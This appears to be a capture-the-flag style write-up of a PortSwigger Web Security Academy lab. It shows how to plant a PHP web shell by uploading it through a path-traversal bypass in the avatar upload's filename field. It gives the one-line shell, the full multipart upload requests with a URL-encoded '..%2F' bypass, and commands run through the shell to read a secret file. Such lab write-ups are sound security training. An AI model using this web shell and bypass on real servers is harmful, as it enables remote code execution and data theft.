





# Web shell upload via path traversal

## Lab Description :


## Overview :
Preventing file execution in user-accessible directories
While it's clearly better to prevent dangerous file types being uploaded in the first place, the second line of defense is to stop the server from executing any scripts that do slip through the net.

As a precaution, servers generally only run scripts whose MIME type they have been explicitly configured to execute. Otherwise, they may just return some kind of error message or, in some cases, serve the contents of the file as plain text instead:

```
GET /static/exploit.php?command=id HTTP/1.1
Host: normal-website.com
```
```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 39
```

``<?php echo system($_GET['command']); ?> ``

This behavior is potentially interesting in its own right, as it may provide a way to_ leak source code, but it nullifies any attempt to create a web shell_.

This kind of configuration often differs between directories. A directory to which user-supplied files are uploaded will likely have much stricter controls than other locations on the filesystem that are assumed to be out of reach for end users. If you can find a way to upload a script to a different directory that's not supposed to contain user-supplied files, the server may execute your script after all.

Tip

Web servers often use the filename field in multipart/form-data requests to determine the name and location where the file should be saved.

## Solution :
Log in as wiener to access the page where we can upload avatars.

Upload the malicious file -
When we upload file.php with the contents ``<?php echo system($_GET['command']); ?>``, it is successfully uploaded without any issues.



The request that was sent is as follows,
```html
POST /my-account/avatar HTTP/2
Host: 0a78005003faed9a82dc0c4600a00020.web-security-academy.net
Cookie: session=aWtpSAMVirAHeCiD6YqpGN4PJji0x0kC
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42560056771282130375485220784
Content-Length: 523
Origin: https://0a78005003faed9a82dc0c4600a00020.web-security-academy.net
Referer: https://0a78005003faed9a82dc0c4600a00020.web-security-academy.net/my-account?id=wiener
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="avatar"; filename="file.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="user"

wiener
-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="csrf"

z1cGPxcrji8bU05DgYXWwrDK4bxUVQcO
-----------------------------42560056771282130375485220784--
```
But when we try to access/run the file, we get nothing in response. It is plaintext. It means the directory in which the file is saved doensn't allow certain files to be executed(Permission issues etc..,).

So we have to save the file in some other directory which has executable permissions.

Notice that there is a filename= parameter in the body , since the request has multipart/form-data. We could use that parameter to save it in another directory.

Case 1 -
When we give filename=../file.php , the response says it is successfully uploaded but if we try accessing the file at academy.com/files/avatars/../file.php or academy.com/files/file.php it still shows nothing.

Maybe the server strips of the .. or / so it gets saved as ..file.php.

Case 2 -
Now to bypass this we can try giving the name of the filename in the filename= parameter by Url encoding it as filename=..%2Ffile.php
```html
POST /my-account/avatar HTTP/2
Host: 0a78005003faed9a82dc0c4600a00020.web-security-academy.net
.
.
.
.
-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="avatar"; filename="..%2Ffile.php"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="user"

wiener
-----------------------------42560056771282130375485220784
Content-Disposition: form-data; name="csrf"

z1cGPxcrji8bU05DgYXWwrDK4bxUVQcO
-----------------------------42560056771282130375485220784--
```
Now also we get a successfully uploaded message in the response.
```
HTTP/2 200 OK
Date: Fri, 28 Jul 2023 14:36:58 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Type: text/html; charset=UTF-8
X-Frame-Options: SAMEORIGIN
Content-Length: 132
```
The file avatars/../file.php has been uploaded.``<p><a href="/my-account" title="Return to previous page">« Back to My Account</a></p>``
Now if we try to access the file at academy.net/files/file.php & run it using the ?command= parameter, we get the executed command back in the response.

ie - ``https://academy.net/files/file.php?command=id``



Retreive the secret -
Now we can retreive the secret by accessing the file at /files/file.php ie the directory before avatars & run the script with the command=cat /home/carlos/secret



SECRET - ``rT9LETyiGsSM5KvLRUKfijLkW08AdheP``

Submit the secret to solve the lab.



#### Visit The Next Page For The Next Level :)
